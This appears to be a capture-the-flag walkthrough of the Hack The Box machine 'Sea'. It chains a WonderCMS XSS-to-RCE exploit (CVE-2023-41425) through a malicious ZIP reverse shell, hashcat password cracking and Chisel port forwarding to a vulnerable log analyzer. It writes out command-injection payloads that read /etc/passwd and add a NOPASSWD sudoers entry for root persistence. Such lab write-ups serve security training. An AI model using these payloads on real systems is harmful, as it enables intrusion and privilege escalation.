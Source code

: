 🌊 HTB: Sea — Rooting via XSS → RCE → Password Crack → Log File Injection

Difficulty: Medium
Author: Rephrased from pk2212
Vector: CVE-2023-41425 → Password hash crack → Port forwarding → RCE via Log Analyzer

🚀 Attack Summary

    ⚡️ Initial foothold via stored XSS-to-RCE in WonderCMS (CVE-2023-41425)

    🔓 Gained reverse shell through a malicious ZIP payload upload

    🔐 Extracted and cracked a user password hash from database.js

    🔁 Used Chisel for port forwarding to access a local log analyzer on port 8080

    ⚙️ Exploited log analyzer to achieve RCE as root

    📈 Persisted root access by modifying /etc/sudoers.d/ via log injection

🔍 Recon & Enumeration

Basic service enumeration didn’t reveal much:

nmap -sC -sV -v <target-ip>

Accessing the main page on port 80, I browsed to the “How to Participate” section which linked to a contact form. SQLi testing didn’t yield results, so I pivoted to directory fuzzing using feroxbuster:

feroxbuster -u http://sea.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

Discovered /themes/bike/, which revealed a README indicating WonderCMS v3.2.0.
💥 Exploiting WonderCMS (CVE-2023-41425)

Found a solid public exploit:
🔗 insomnia-jacob/CVE-2023-41425

This exploit chain works like this:

    Launch exploit.py, which generates a malicious xss.js and serves main.zip (containing a reverse shell payload)

    Submit the xss.js link via the vulnerable contact form under the “Website” field

    Victim (admin) visits the link → triggers XSS → uploads main.zip

    Server unpacks the archive and executes rev.php, sending a reverse shell back to the attacker

Received the shell as www-data.
🧠 Looting Credentials

Inside /data/database.js, found a hashed password.

Steps:

    Cleaned out escape characters

    Identified it as a SHA-512 hash

    Cracked using hashcat with mode 1800:

hashcat -m 1800 hash.txt rockyou.txt --force

Logged in as user amay via SSH using the recovered password. Captured user.txt.
🔀 Port Forwarding to Internal Port 8080

While enumerating with LinPEAS and manual checks, identified a service on localhost:8080.

Instead of SSH tunneling, I opted to forward using Chisel for stealth and speed:

# On local machine
chisel server -p 9001 --reverse

# On target
chisel client <your-ip>:9001 R:8080:127.0.0.1:8080

Accessed http://localhost:8080 — a System Monitor panel.
🔧 RCE via Log File Analyzer

The "Analyze Log File" function accepted a parameter log_file=, which was vulnerable.

    Tested reading files:

log_file=/etc/passwd

Output was truncated, so I used URL-encoded payload with +# to see full content:

log_file=/etc/passwd+%2B%23

Then tested command injection with &&:

    log_file=/etc/passwd+%26%26id+%2B%23

✔️ Output confirmed command execution as root.
🧨 Privilege Escalation & Root Access

To persist root access, I modified sudoers:

log_file=/etc/passwd+%26%26echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+%2B%23

Confirmed success. Then escalated:

sudo -i

Captured root.txt 🏴.
✅ Box Summary
Stage	Vector
Initial Access	CVE-2023-41425 → XSS + ZIP Upload → RCE
User Privs	Password hash extraction from database.js
Privesc to Root	RCE via log analyzer → Sudoers overwrite
🎯 Final Thoughts

“Sea” was an elegant demonstration of real-world chaining:

    Stored XSS used as a file upload vector

    Local enumeration for user creds

    Abusing developer features (log file analysis) for full system compromise
